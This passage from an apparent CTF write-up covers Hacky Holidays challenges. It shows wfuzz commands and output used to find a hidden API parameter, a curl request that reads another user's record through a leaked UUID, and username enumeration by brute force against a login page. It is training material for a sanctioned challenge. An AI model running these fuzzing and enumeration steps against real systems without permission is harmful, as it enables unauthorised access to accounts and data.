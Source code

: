```bash
wfuzz --hc=400 -zfile,wordlists/params.txt https://hackyholidays.h1ctf.com/swag-shop/api/user?FUZZ=1
```

This revealed the `uuid` parameter:

![uuid parameter](/assets/2021-01-07-hacky-holidays/flag4.b.png)

When I decoded the session data, there was a UUID (`C7DCCE-0E0DAB-B20226-FC92EA-1B9043`) included in the `user` parameter. This couldn't be a coincidence! I used it in the `uuid` parameter on the `user` endpoint:

```bash
$ curl https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043
{"uuid":"C7DCCE-0E0DAB-B20226-FC92EA-1B9043","username":"grinch","address":{"line_1":"The Grinch","line_2":"The Cave","line_3":"Mount Crumpit","line_4":"Whoville"},"flag":"flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}"}% 
```

And there was the flag!

Flag: `flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}`

## Flag 5: Secure Login

The page at [/secure-login](https://hackyholidays.h1ctf.com/secure-login) consisted of a fairly minimal login form.

Trying SQL injection etc. yielded no results, but there was an interesting error message here when I entered some gibberish:

![invalid username](/assets/2021-01-07-hacky-holidays/flag5.a.png)

The login page specifically told me when the supplied username was invalid, as opposed to giving a generic "login failed" message that didn't explain whether it was the username or password at fault. This means I could brute-force for a valid username.

I cracked open wfuzz again:

```bash
$ wfuzz -zfile,wordlists/usernames.txt --hs 'Invalid Username' -d 'username=FUZZ&password=blah' https://hackyholidays.h1ctf.com/secure-login

********************************************************
* Wfuzz 2.4.2 - The Web Fuzzer                         *
********************************************************

Target: https://hackyholidays.h1ctf.com/secure-login
Total requests: 22342

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                             
===================================================================

000005730:   200        36 L     84 W     1724 Ch     "access"  
```
